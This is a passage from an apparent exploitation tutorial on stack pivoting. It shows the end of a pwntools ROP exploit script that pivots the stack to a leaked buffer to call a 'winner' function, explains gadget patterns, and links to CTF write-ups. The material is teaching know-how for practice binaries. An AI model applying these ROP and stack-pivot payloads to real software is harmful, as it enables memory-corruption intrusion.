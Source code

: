 ```python
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
    POP_CHAIN,
    buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```

### xchg \<reg>, rsp gadget

```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```

### jmp esp

Check the ret2esp technique here:

{{#ref}}
../rop-return-oriented-programing/ret2esp-ret2reg.md
{{#endref}}

## References & Other Examples

- [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
- [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)
- [https://guyinatuxedo.github.io/17-stack_pivot/dcquals19_speedrun4/index.html](https://guyinatuxedo.github.io/17-stack_pivot/dcquals19_speedrun4/index.html)
  - 64 bits, off by one exploitation with a rop chain starting with a ret sled
- [https://guyinatuxedo.github.io/17-stack_pivot/insomnihack18_onewrite/index.html](https://guyinatuxedo.github.io/17-stack_pivot/insomnihack18_onewrite/index.html)
  - 64 bit, no relro, canary, nx and pie. The program grants a leak for stack or pie and a WWW of a qword. First get the stack leak and use the WWW to go back and get the pie leak. Then use the WWW to create an eternal loop abusing `.fini_array` entries + calling `__libc_csu_fini` ([more info here](../arbitrary-write-2-exec/www2exec-.dtors-and-.fini_array.md)). Abusing this "eternal" write, it's written a ROP chain in the .bss and end up calling it pivoting with RBP.
